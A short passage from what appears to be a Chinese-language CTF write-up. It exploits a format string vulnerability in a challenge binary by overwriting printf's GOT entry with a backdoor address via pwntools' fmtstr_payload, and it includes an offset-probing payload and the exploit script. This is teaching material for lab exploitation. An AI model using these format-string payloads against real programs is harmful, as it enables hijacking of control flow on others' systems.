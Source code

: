 首先，我们拿到我们的程序后
![[Pasted image 20240209145903.png]]

发现存在一个明显的格式化字符串漏洞，并且我们没有栈溢出，于是我们需要采用我们的格式化字符串修改 got 表来进行我们的操作。

我们对于格式化字符串修改 got 表有两种方法：
第一种：采用我们的 pwn 工具包中自带的工具：
**第一个参数为数据距离格式化字符串的偏移，这个我们可以通过暴力枚举计算，

```python
payload = 'aaaa-%p-%p-%p-%p'
```

![请添加图片描述](https://img-blog.csdnimg.cn/8a06c3fc15904450a63994e6499e48a6.png)


**第二个参数为字典{pirntf_got: addr}，攻击载荷 pwntools 已经为我们填好，可以直接使用**


```
from pwn import *
elf = ELF(program)
printf_got = elf.got["printf"]
backdoor = int(p.recv(9),16)
payload = fmtstr_payload(11,{printf_got:backdoor})
p.sendline(payload)
p.interactive()
```